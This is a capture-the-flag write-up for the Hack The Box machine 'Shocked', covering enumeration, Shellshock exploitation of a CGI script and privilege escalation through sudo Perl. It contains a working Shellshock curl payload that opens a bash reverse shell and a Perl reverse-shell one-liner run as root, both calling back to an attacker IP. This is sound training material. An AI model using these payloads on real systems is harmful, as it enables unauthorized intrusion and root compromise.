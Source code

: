```yaml
---
layout: single
title: Shocked Writeup
date: '2020-01-09 12:24:21'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-01-09-shocked-writeup/shocked.png
    text: "https://app.hackthebox.eu/machines/retired"
typora-copy-images-to: ../../images/posts/2020/${filename}/
---
```

A straightforward box that teaches you about a very common vulnerability from a few years ago.…

## Enumeration

Running the usual autorecon scan revealed that ports 80 & 2222 were open. Port 80 was running an Apache webserver, whilst port 2222 was running OpenSSH.

The webserver seemed the obvious place to start and revealed a site with an amusing image, but nothing interesting in the source or hidden in the JPEG image, which I ran `strings` over quickly.

Given nothing seemed to be obviously visible I then ran `dirbuster` over the webtree using the `directory-list-2.3-small.txt wordlist`.

This discovered that a `/cgi-bin` directory was present. I stopped the scan that was running over the whole tree and started a new scan restricted to `/cgi-bin` and looking for a number of common script file extensions:


![Screenshot-from-2020-01-09-11-53-04](../../images/posts/2020/2020-01-09-shocked-writeup/Screenshot-from-2020-01-09-11-53-04.png)

This quickly discovered `/cgi-bin/user.sh`. Going to the location showed this was a simple script to show the host uptime.

## Exploitation

Given the name of the server and the fact that the script appeared to be a shell script it seemed worth trying the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) vulnerability.

We can try and invoke this by using

`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.17/1234 0>&1' http://10.10.10.56/cgi-bin/user.sh`

which will try and exploit the vulnerability by sending the command we want to run in the User-Agent header. This will create a reverse shell back to our box and does indeed work when executed and gives us a shell as the `shelly` user and we can grab user.txt from /home/shelly.

## Escalation

Running `sudo -l` shows that shelly can run `/usr/bin/perl` as root with no password. Though it'd be easy just to grab the root.txt contents using Perl, it's more fun to get a root shell. We can use the Perl reverse shell below to grab this:
```bash
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.17";$p=4096;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
with the a listener started with the usual `nc -lvp 4096`. This gets us a full root shell and we can cat `/root/root.txt`


